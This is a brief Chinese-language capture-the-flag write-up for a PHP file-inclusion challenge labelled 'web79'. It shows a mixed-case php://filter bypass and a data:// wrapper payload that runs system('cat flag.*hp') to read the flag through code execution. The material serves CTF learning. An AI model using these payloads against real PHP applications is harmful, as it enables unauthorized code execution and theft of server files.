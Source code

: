 # web79
![](vx_images/334190554880084.png)
将php变为???,变为大写绕过
```
?file=Php://filter/read=convert.base64-encode/resource=flag.Php
```
会报错,那就用
```
/?file=data://text/plain,<?=system('cat flag.*hp')?>
```
f12查看源码
![](vx_images/550774308190966.png)